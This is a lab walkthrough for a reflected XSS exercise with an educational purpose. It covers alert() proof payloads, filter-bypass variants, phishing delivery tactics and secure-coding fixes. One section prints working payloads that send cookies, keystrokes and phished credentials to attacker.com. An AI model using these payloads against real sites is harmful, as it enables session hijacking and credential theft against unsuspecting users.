

---

**Difficulty:** 🟢 Apprentice

**Goal:**

- 🔍 Understand reflected XSS vulnerabilities
- 🎯 Identify unsanitized user input reflection
- 🔎 Locate injection points in search functionality
- 📊 Craft basic XSS payload
- 🔐 Execute JavaScript in victim's browser
- 💡 Learn how lack of encoding enables attacks
- 🗝️ Trigger alert() function to prove exploitation
- ✅ Complete the lab by executing XSS

---

## 🧠 **Concept Recap**

> **Reflected Cross-Site Scripting (XSS)** occurs when an application receives data in an HTTP request and includes that data in the immediate response in an unsafe way. If the application doesn't properly encode or sanitize the reflected input, an attacker can inject malicious JavaScript that executes in the victim's browser.

### 📊 **The Vulnerability**

**What is Reflected XSS?**

```HTML
Normal Application Flow:
User Input → Application → Response
    ↓
"laptop"  → Search: laptop → "Results for: laptop"
    ↓
Safe: Input displayed as plain text ✓

Vulnerable Application Flow:
User Input → Application → Response (No Encoding!)
    ↓
"<script>alert(1)</script>" → Search → HTML includes script tag
    ↓
Dangerous: Browser executes the script! ⚠️

The Problem:
└── Application reflects user input directly into HTML
    └── Without encoding/escaping special characters
    └── Browser interprets input as code, not data
    └── Attacker's JavaScript executes in victim's browser
```

**HTML Context - Nothing Encoded:**

```HTML
Vulnerable Code (Conceptual):

def search(request):
    query = request.GET.get('search')
    
    # ❌ DANGEROUS: Direct reflection with no encoding
    html = f"<h1>Results for: {query}</h1>"
    
    return HttpResponse(html)

What happens:
├── User searches for: laptop
├── Response: <h1>Results for: laptop</h1>
└── Browser displays: "Results for: laptop" ✓

But if attacker searches for: <script>alert(1)</script>
├── Response: <h1>Results for: <script>alert(1)</script></h1>
├── Browser sees: <script> tag in HTML
├── Browser executes: alert(1)
└── XSS successful! ⚠️

Why it works:
└── No encoding of < > characters
    └── Browser treats input as HTML/JavaScript
    └── Not as plain text data
    └── Script executes in page context
```

**Attack Vector Breakdown:**

```HTML
The Payload: <script>alert(1)</script>

Breakdown:
├── <script> ← HTML tag that executes JavaScript
├── alert(1) ← JavaScript function call
├── </script> ← Closing tag
└── Goal: Prove JavaScript execution

How it gets reflected:

1. Attacker crafts URL:
   https://victim.com/search?q=<script>alert(1)</script>

2. Application processes request:
   query = "<script>alert(1)</script>"

3. Application reflects in response:
   <html>
     <h1>Search results for: <script>alert(1)</script></h1>
   </html>

4. Browser renders page:
   ├── Parses HTML
   ├── Encounters <script> tag
   ├── Executes JavaScript: alert(1)
   └── Alert box appears ✓

5. Attack confirmed:
   └── JavaScript executed successfully
   └── Attacker controls browser behavior
   └── Can steal cookies, redirect, modify page
```

**Why "Nothing Encoded" Matters:**

```HTML
Proper Encoding vs No Encoding:

WITH Encoding (Secure):
├── Input: <script>alert(1)</script>
├── Encoded: &lt;script&gt;alert(1)&lt;/script&gt;
├── Browser displays: <script>alert(1)</script>
└── Rendered as text, NOT executed ✓

WITHOUT Encoding (Vulnerable):
├── Input: <script>alert(1)</script>
├── Reflected: <script>alert(1)</script>
├── Browser parses: Valid HTML/JavaScript
└── Script executes! ⚠️

HTML Encoding converts:
├── < becomes &lt;
├── > becomes &gt;
├── " becomes &quot;
├── ' becomes &#x27;
├── & becomes &amp;
└── Prevents browser from interpreting as code

No encoding means:
└── Special characters remain active
    └── Browser treats them as markup
    └── Attacker can inject any HTML/JavaScript
    └── Full control over page execution
```

**Real-World Impact:**

```
What attackers can do with XSS:

1. Session Hijacking
   ├── Steal cookies: document.cookie
   ├── Send to attacker: fetch('evil.com?c='+document.cookie)
   ├── Attacker uses cookies to impersonate victim
   └── Full account takeover ✓

2. Credential Theft
   ├── Inject fake login form
   ├── Capture username/password
   ├── Send to attacker's server
   └── Steal credentials ✓

3. Phishing
   ├── Inject malicious content
   ├── Trick users into clicking links
   ├── Redirect to attacker's site
   └── Harvest sensitive data ✓

4. Keylogging
   ├── Install JavaScript keylogger
   ├── Capture all keystrokes
   ├── Send to attacker
   └── Steal passwords, messages, data ✓

5. Browser Exploitation
   ├── Scan internal network
   ├── Exploit browser vulnerabilities
   ├── Install malware
   └── Full system compromise ✓

Reflected XSS requires:
└── Victim to click malicious link
    └── Attacker sends via: email, social media, ads
    └── Link contains XSS payload
    └── Victim's browser executes attacker's code
    └── Impact occurs in victim's session
```

---
---

## 🛠️ **Step-by-Step Attack**

---

### 🔧 **Step 1 — Access Lab Environment**

1. 🌐 Click **"Access the lab"** button
2. 🔐 Configure Burp Suite proxy (optional - for analysis)
3. 📱 Wait for lab environment to initialize

**Lab interface:**

```
Lab Environment
├── Web application loads
├── E-commerce/shopping site
├── Search functionality present
├── Products displayed
└── Search box in header/navigation
```

4. ✅ Lab is ready when page fully loads

**Expected page:**

```
Product Catalog
├── Header with search box
├── Product listings
├── Categories/navigation
├── Footer
└── Search form: [Enter search term...]
```

---

### 🔍 **Step 2 — Locate Search Functionality**

1. 👀 Look for **Search** box in the page
2. 🔎 Common locations:
    - Top navigation bar
    - Header section
    - Sidebar
    - Main content area

**Search interface:**

```
Search Form
┌────────────────────────────┐
│  [Search products...]    🔍│
└────────────────────────────┘
     ↓
  [Search button]
```

**Identifying the input field:**

```HTML
HTML (View Source):
<form action="/search" method="GET">
  <input type="text" name="search" placeholder="Search...">
  <button type="submit">Search</button>
</form>

Key observations:
├── Method: GET (parameters in URL)
├── Action: /search endpoint
├── Input name: "search" parameter
└── User input will be in URL
```

---

### 🧪 **Step 3 — Test for Input Reflection**

**Try a simple test string:**

1. ✏️ Click in the search box
2. 📝 Type a unique test string: `test123`
3. 🔍 Click **Search** or press Enter

**Observe the response:**

```HTTP
URL after search:
https://lab-id.web-security-academy.net/search?search=test123
                                                      ↑
                                             Your input in URL

Page displays:
─────────────────────────────
Search Results
─────────────────────────────
No results found for: test123
                      ↑
               Your input reflected!

Confirmation:
└── Input "test123" appears in the response
    └── Reflected in: "No results found for: test123"
    └── Next: Test if it's encoded
```

---

### 🔬 **Step 4 — Test for HTML Encoding**

**Test with HTML special characters:**

1. ✏️ Clear the search box
2. 📝 Type: `<test>`
3. 🔍 Click **Search**

**Analyze the response:**

```html
If properly encoded (SAFE):
─────────────────────────────
No results found for: <test>
─────────────────────────────
Browser displays: <test> as text
View Source shows: &lt;test&gt;
Result: Encoded = Not vulnerable ✗

If NOT encoded (VULNERABLE):
─────────────────────────────
No results found for: <test>
─────────────────────────────
View Source shows: <test>
(Raw < and > characters)
Result: NOT encoded = Vulnerable! ✓

How to verify:
└── Right-click → "View Page Source"
    └── Look for your test input
    └── If you see: <test> (raw)
        └── Not encoded = Vulnerable!
    └── If you see: &lt;test&gt;
        └── Encoded = Not vulnerable
```

**In this lab:**

```
Expected result:
└── <test> appears as raw HTML
    └── No encoding applied
    └── Vulnerable to XSS ✓
```

---

### 🎯 **Step 5 — Craft XSS Payload**

**The classic XSS payload:**

```javascript
<script>alert(1)</script>
```

**Why this payload works:**

```HTML
Payload Breakdown:

<script>
├── HTML tag
├── Tells browser: "Execute JavaScript"
└── Everything inside is JavaScript code

alert(1)
├── JavaScript function
├── Creates popup alert box
├── Parameter: 1 (any value works)
└── Proves JavaScript execution

</script>
├── Closing tag
├── Required for proper HTML
└── Ends JavaScript execution block

Alternative payloads:
├── <script>alert(document.domain)</script>
├── <script>alert(document.cookie)</script>
├── 
├── <svg onload=alert(1)>
└── <body onload=alert(1)>

For this lab, use: <script>alert(1)</script>
```

---

### 💉 **Step 6 — Inject the XSS Payload**

**Execute the attack:**

1. ✏️ Clear the search box
2. 📝 Copy and paste the payload:
    

```js
<script>alert(1)</script>
```

    
3. 🔍 Click **Search** or press Enter

**What happens:**

```HTTP
URL becomes:
https://lab-id.web-security-academy.net/search?search=<script>alert(1)</script>

Server processes:
├── Receives: search parameter
├── Value: <script>alert(1)</script>
├── Reflects it in HTML response
└── No encoding applied

Browser receives HTML:
<html>
  <body>
    <h1>Search results for: <script>alert(1)</script></h1>
  </body>
</html>

Browser renders:
├── Parses HTML document
├── Encounters: <script> tag
├── Executes: alert(1)
├── Alert box appears! 💥
└── XSS successful!
```

---

### ✅ **Step 7 — Verify Successful Exploitation**

**Alert box appears:**

```
┌─────────────────────────────┐
│  ⚠️ This page says:         │
│                             │
│  1                          │
│                             │
│         [  OK  ]            │
└─────────────────────────────┘

This proves:
├── JavaScript executed ✓
├── XSS vulnerability confirmed ✓
├── alert(1) function called ✓
└── Attack successful ✓
```

**Click OK on the alert box:**

```
After clicking OK:
└── Alert closes
    └── Page may show: "No results found"
    └── Or: Page finishes loading
    └── Lab system detected alert() execution
```

---

### 🏆 **Step 8 — Lab Completion**

**Automatic verification:**

```
Lab System:
├── Monitors for alert() execution
├── Detects: Alert box was triggered
├── Validates: XSS successfully executed
└── Marks lab as: SOLVED ✓

Success Banner:
┌──────────────────────────────────────┐
│  ✅ Congratulations!                 │
│                                      │
│  You solved the lab:                 │
│  Reflected XSS into HTML context     │
│  with nothing encoded                │
│                                      │
│  Lab Status: SOLVED ✓                │
└──────────────────────────────────────┘
```

**Confirmation:**

```
Lab completion indicators:
├── Green checkmark appears
├── "Congratulations" message displays
├── Lab marked as complete in dashboard
└── Progress updated in your account
```

---

## 🔗 **Complete Attack Chain**

```HTTP
Step 1: Access lab environment
         ├── Click "Access the lab"
         ├── Wait for page to load
         └── E-commerce site appears
         ↓
Step 2: Locate search functionality
         ├── Find search box in header
         ├── Identify search form
         └── Ready to test input
         ↓
Step 3: Test input reflection
         ├── Search for: test123
         ├── Observe: Input appears in response
         ├── Confirm: "No results found for: test123"
         └── Input reflection confirmed ✓
         ↓
Step 4: Test for encoding
         ├── Search for: <test>
         ├── View page source
         ├── Check: Raw <test> or &lt;test&gt;?
         ├── Result: Raw <test> visible
         └── No encoding = Vulnerable! ✓
         ↓
Step 5: Craft XSS payload
         ├── Choose: <script>alert(1)</script>
         ├── Understand: Will execute JavaScript
         ├── Prepare: Copy payload
         └── Ready to inject
         ↓
Step 6: Inject payload
         ├── Paste: <script>alert(1)</script>
         ├── Click: Search button
         ├── URL: /search?search=<script>alert(1)</script>
         └── Submit request
         ↓
Step 7: Observe execution
         ├── Browser: Parses HTML response
         ├── Encounters: <script> tag
         ├── Executes: alert(1)
         ├── Alert box: Appears on screen! 💥
         └── XSS confirmed! ✓
         ↓
Step 8: Verify completion
         ├── Click: OK on alert
         ├── Lab system: Detects alert()
         ├── Status: SOLVED ✓
         └── Success banner: Appears
         ↓
Step 9: Lab complete! 🎉
         ├── XSS vulnerability exploited
         ├── JavaScript executed successfully
         ├── Lab objectives met
         └── Reflected XSS mastered
```

---

## 📚 **Understanding Reflected XSS**

### **What is Reflected XSS?**

```js
Reflected XSS Definition:

A web security vulnerability where:
├── Application receives data in HTTP request
├── Data is included in immediate response
├── Data is not properly encoded/sanitized
└── Attacker can inject malicious scripts

Characteristics:
├── Non-persistent (not stored in database)
├── Requires victim to click malicious link
├── Executes in victim's browser context
├── Can steal cookies, credentials, sessions
└── One of the most common web vulnerabilities

Types of XSS:
├── Reflected XSS (this lab)
│   └── Payload in URL, immediate execution
├── Stored XSS
│   └── Payload stored in database, affects all users
└── DOM-based XSS
    └── Payload executed via client-side JavaScript

Severity: HIGH
└── Can lead to complete account compromise
    └── Session hijacking
    └── Credential theft
    └── Malicious redirects
```

### **How Reflected XSS Works**

```
Attack Mechanism:

1. Attacker crafts malicious URL
   └── Contains XSS payload in parameter
   └── Example: /search?q=<script>alert(1)</script>

2. Attacker sends URL to victim
   └── Via: Email, social media, ads, forums
   └── Often disguised with URL shorteners
   └── Victim clicks the link

3. Victim's browser requests page
   └── Sends: HTTP GET request with payload
   └── To: Vulnerable application

4. Application reflects payload
   └── Takes: User input from parameter
   └── Includes: Directly in HTML response
   └── Without: Encoding or sanitization

5. Browser executes payload
   └── Parses: HTML response
   └── Encounters: <script> tag
   └── Executes: Attacker's JavaScript
   └── In: Victim's browser context

6. Attack succeeds
   └── Attacker's code runs
   └── With: Victim's session/cookies
   └── Can: Steal data, perform actions
   └── As: The victim user

The vulnerability exists because:
└── Application trusts user input
    └── Reflects it without validation
    └── No encoding of special characters
    └── Browser interprets as code
```

### **HTML Context Explained**

```HTML
What is "HTML Context"?

The payload is injected into:
└── Regular HTML content
    └── Between HTML tags
    └── In page body
    └── Not in JavaScript, not in attributes

Example vulnerable code:

<html>
  <body>
    <h1>Search Results</h1>
    <p>You searched for: USER_INPUT_HERE</p>
    ↑
    This is HTML context
    Input appears between HTML tags
  </body>
</html>

Injection point:
<p>You searched for: <script>alert(1)</script></p>
                     ↑
                     Payload inserted here
                     Browser interprets as new tag

Why it's vulnerable:
├── No encoding applied
├── < and > remain as special characters
├── Browser creates new HTML element
└── Script executes

If properly encoded:
<p>You searched for: &lt;script&gt;alert(1)&lt;/script&gt;</p>
                     ↑
                     Browser displays: <script>alert(1)</script>
                     As text, not code ✓
```

### **Why Encoding Matters**

```HTML
HTML Encoding Process:

Special characters converted to HTML entities:
├── < becomes &lt;
├── > becomes &gt;
├── & becomes &amp;
├── " becomes &quot;
├── ' becomes &#x27; or &apos;
└── These display as characters, not markup

Without Encoding (Vulnerable):
Input:  <script>alert(1)</script>
Output: <script>alert(1)</script>
Result: Browser executes JavaScript ⚠️

With Encoding (Secure):
Input:  <script>alert(1)</script>
Output: &lt;script&gt;alert(1)&lt;/script&gt;
Result: Browser displays text ✓

Why encoding prevents XSS:
└── HTML entities are not interpreted as tags
    └── Browser renders them as plain text
    └── Cannot create new HTML elements
    └── JavaScript cannot execute
    └── Safe to display user input
```

---

## 🔬 **Advanced Topics**

### **Alternative XSS Payloads**

**Besides `<script>alert(1)</script>`, other payloads work:**

```html
<!-- Image tag with error handler -->

├── src=x: Invalid image source
├── onerror: Event handler for errors
└── alert(1): JavaScript to execute

<!-- SVG with onload event -->
<svg onload=alert(1)>
├── SVG: Scalable Vector Graphics tag
├── onload: Executes when SVG loads
└── alert(1): JavaScript payload

<!-- Body tag with onload -->
<body onload=alert(1)>
├── body: HTML body element
├── onload: Fires when page loads
└── May need to close existing tags

<!-- iframe with javascript: protocol -->
<iframe src="javascript:alert(1)">
├── iframe: Inline frame element
├── javascript:: Execute JavaScript
└── alert(1): Payload

<!-- Details tag with ontoggle -->
<details open ontoggle=alert(1)>
├── details: HTML5 disclosure widget
├── open: Auto-opens the details
├── ontoggle: Fires when toggled
└── alert(1): JavaScript

Why multiple payloads exist:
└── Different contexts have different restrictions
    └── Some tags are filtered
    └── Some attributes are blocked
    └── Encoding may vary by context
    └── Having alternatives helps bypass filters
```

### **URL Encoding in XSS**

```HTML
When XSS payload is in URL:

Browser automatically URL-encodes some characters:
├── Space becomes %20
├── < becomes %3C
├── > becomes %3E
└── Etc.

Example:
URL typed: /search?q=<script>alert(1)</script>
URL sent:  /search?q=%3Cscript%3Ealert(1)%3C/script%3E

Server decodes:
└── Receives: <script>alert(1)</script>
    └── Reflects: In HTML response
    └── Browser: Executes JavaScript

Manual URL encoding (if needed):
└── < = %3C
└── > = %3E
└── " = %22
└── ' = %27
└── ( = %28
└── ) = %29

When to manually encode:
└── Web Application Firewalls (WAF) may block
└── Filters may detect plain <script>
└── URL encoding can bypass simple filters
```

### **Delivering Reflected XSS Attacks**

```HTML
How attackers deliver malicious links:

1. Phishing Emails
   ├── Email with malicious link
   ├── Looks like legitimate notification
   ├── "Click here to reset password"
   └── Link contains XSS payload

2. Social Media
   ├── Post malicious link on Twitter/Facebook
   ├── "Check out this funny video!"
   ├── Shortened URL hides payload
   └── Users click without seeing full URL

3. Forum/Comment Injection
   ├── Post on forum with link
   ├── "For more info, click here"
   ├── URL contains XSS
   └── Other users click and get exploited

4. Malicious Advertisements
   ├── Buy ad space on legitimate sites
   ├── Ad contains malicious link
   ├── Users click, XSS executes
   └── Called "Malvertising"

5. URL Shorteners
   ├── Use bit.ly, tinyurl, etc.
   ├── Hide actual malicious URL
   ├── Users can't see the payload
   └── More likely to click

Disguising XSS URLs:
Original: https://victim.com/search?q=<script>alert(1)</script>
Encoded:  https://victim.com/search?q=%3Cscript%3Ealert(1)%3C%2Fscript%3E
Shortened: https://bit.ly/abc123
```

### **Exploiting Reflected XSS for Real Impact**

**Beyond alert(), real attacks do:**

```javascript
// 1. Cookie Stealing
<script>
  // Send victim's cookies to attacker
  fetch('https://attacker.com/steal?c=' + document.cookie);
</script>

// 2. Credential Harvesting
<script>
  // Inject fake login form
  document.body.innerHTML = `
    <h1>Session Expired - Please Login</h1>
    <form action="https://attacker.com/phish">
      Username: <input name="user"><br>
      Password: <input name="pass" type="password"><br>
      <button>Login</button>
    </form>
  `;
</script>

// 3. Keylogging
<script>
  // Capture all keystrokes
  document.addEventListener('keypress', function(e) {
    fetch('https://attacker.com/log?key=' + e.key);
  });
</script>

// 4. Session Riding (CSRF via XSS)
<script>
  // Perform action as victim
  fetch('/change-email', {
    method: 'POST',
    body: 'email=attacker@evil.com',
    credentials: 'include'
  });
</script>

// 5. Defacement
<script>
  // Replace page content
  document.body.innerHTML = '<h1>Hacked!</h1>';
</script>

// 6. Redirection to Malicious Site
<script>
  // Redirect user to phishing site
  window.location = 'https://attacker.com/phishing';
</script>
```

---
---

## 🛡️ **How to Fix (Secure Code)**

---

### **Fix 1: HTML Encoding Output**

```python
# ❌ VULNERABLE - Direct reflection
from flask import Flask, request

@app.route('/search')
def search():
    query = request.args.get('search', '')
    # Directly embedding user input in HTML
    return f"<h1>Results for: {query}</h1>"

# ✅ SECURE - HTML encoding
from flask import Flask, request
from markupsafe import escape

@app.route('/search')
def search():
    query = request.args.get('search', '')
    # HTML encode the user input
    safe_query = escape(query)
    return f"<h1>Results for: {safe_query}</h1>"

# Even better - Use template engine with auto-escaping
from flask import Flask, request, render_template_string

@app.route('/search')
def search():
    query = request.args.get('search', '')
    # Jinja2 auto-escapes by default
    return render_template_string(
        "<h1>Results for: {{ query }}</h1>",
        query=query
    )
```

---

### **Fix 2: Context-Aware Encoding**

```javascript
// ❌ VULNERABLE - Wrong encoding context
function displayUsername(username) {
  // User input in JavaScript context
  document.body.innerHTML = `
    <script>
      var user = "${username}";  // DANGEROUS!
    </script>
  `;
}

// ✅ SECURE - JavaScript encoding
function displayUsername(username) {
  // Properly escape for JavaScript context
  var escapedUser = username
    .replace(/\\/g, '\\\\')
    .replace(/'/g, "\\'")
    .replace(/"/g, '\\"')
    .replace(/\n/g, '\\n')
    .replace(/\r/g, '\\r');
  
  document.body.innerHTML = `
    <script>
      var user = "${escapedUser}";
    </script>
  `;
}

// Even better - Avoid inline JavaScript entirely
function displayUsername(username) {
  // Use DOM methods, no innerHTML with scripts
  const userElement = document.createElement('div');
  userElement.textContent = username;  // textContent auto-escapes
  document.body.appendChild(userElement);
}
```

---

### **Fix 3: Use Security Libraries**

```php
<?php
// ❌ VULNERABLE - No encoding
$search = $_GET['search'];
echo "<h1>Results for: " . $search . "</h1>";

// ✅ SECURE - Using htmlspecialchars()
$search = $_GET['search'];
$safe_search = htmlspecialchars($search, ENT_QUOTES, 'UTF-8');
echo "<h1>Results for: " . $safe_search . "</h1>";

// What htmlspecialchars does:
// < becomes &lt;
// > becomes &gt;
// & becomes &amp;
// " becomes &quot;
// ' becomes &#039;

// ✅ EVEN BETTER - Template engine
// Using Twig (auto-escapes by default)
echo $twig->render('search.html', [
    'search_query' => $search
]);
// Template: <h1>Results for: {{ search_query }}</h1>
?>
```

---

### **Fix 4: Content Security Policy (CSP)**

```html
<!-- ❌ VULNERABLE - No CSP -->
<html>
<head>
  <title>Vulnerable Site</title>
</head>
<body>
  <!-- XSS can execute here -->
</body>
</html>

<!-- ✅ SECURE - Strict CSP -->
<html>
<head>
  <title>Protected Site</title>
  <!-- CSP header prevents inline scripts -->
  <meta http-equiv="Content-Security-Policy" 
        content="default-src 'self'; 
                 script-src 'self'; 
                 style-src 'self' 'unsafe-inline'; 
                 img-src 'self' data:;">
</head>
<body>
  <!-- Inline scripts blocked by CSP -->
  <!-- <script>alert(1)</script> won't execute -->
</body>
</html>

<!-- Server-side CSP header (better) -->
```

```python
# Python/Flask
@app.after_request
def set_csp(response):
    response.headers['Content-Security-Policy'] = \
        "default-src 'self'; script-src 'self'; object-src 'none';"
    return response
```

```javascript
// Node.js/Express
app.use((req, res, next) => {
  res.setHeader(
    'Content-Security-Policy',
    "default-src 'self'; script-src 'self'; object-src 'none';"
  );
  next();
});
```

---

### **Fix 5: Input Validation (Defense in Depth)**

```python
# ❌ VULNERABLE - Input validation alone isn't enough
@app.route('/search')
def search():
    query = request.args.get('search', '')
    
    # This doesn't prevent XSS!
    if len(query) > 100:
        return "Query too long"
    
    # Still vulnerable to XSS
    return f"<h1>Results for: {query}</h1>"

# ✅ BETTER - Input validation + output encoding
import re
from markupsafe import escape

@app.route('/search')
def search():
    query = request.args.get('search', '')
    
    # Input validation (defense in depth)
    if not re.match(r'^[a-zA-Z0-9\s\-]+$', query):
        return "Invalid search query", 400
    
    # STILL encode output (primary defense)
    safe_query = escape(query)
    return f"<h1>Results for: {safe_query}</h1>"

# Key principle:
# └── Input validation is helpful but not sufficient
#     └── ALWAYS encode output regardless of validation
#     └── Multiple layers of defense
#     └── Never trust any input
```

---
